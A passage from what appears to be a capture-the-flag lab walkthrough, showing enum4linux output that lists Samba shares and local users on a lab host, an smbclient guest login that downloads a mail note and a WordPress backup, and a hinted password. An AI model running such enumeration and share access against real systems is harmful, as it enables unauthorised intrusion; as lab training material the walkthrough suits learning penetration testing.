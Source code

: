 **Run [[Enum4linux]] to discover samba shares and local users:**

```bash
... 
 ========================================== 
|    Share Enumeration on 192.168.5.124    |
 ========================================== 
[V] Attempting to get share list using authentication

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            PHOTOGRAPHER
...
S-1-22-1-1000 Unix User\daisa (Local User)
S-1-22-1-1001 Unix User\agi (Local User)
...
```

**Use smbclient to connect to the sambashare share as the guest user and download the share contents:**

```bash
└─$ smbclient \\\\192.168.5.124\\sambashare --user=guest                                                                                1 ⨯
Enter WORKGROUP\guest's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jul 20 18:30:07 2020
  ..                                  D        0  Tue Jul 21 02:44:25 2020
  mailsent.txt                        N      503  Mon Jul 20 18:29:40 2020
  wordpress.bkp.zip                   N 13930308  Mon Jul 20 18:22:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
                
smb: \> get mailsent.txt 
getting file \mailsent.txt of size 503 as mailsent.txt (19.6 KiloBytes/sec) (average 19.6 KiloBytes/sec)
smb: \> get wordpress.bkp.zip 
getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (10282.6 KiloBytes/sec) (average 10092.2 KiloBytes/sec)
smb: \> exit
```

**View the `mailsent.txt` file.. there is a hint indicating a possible password `babygirl`:**
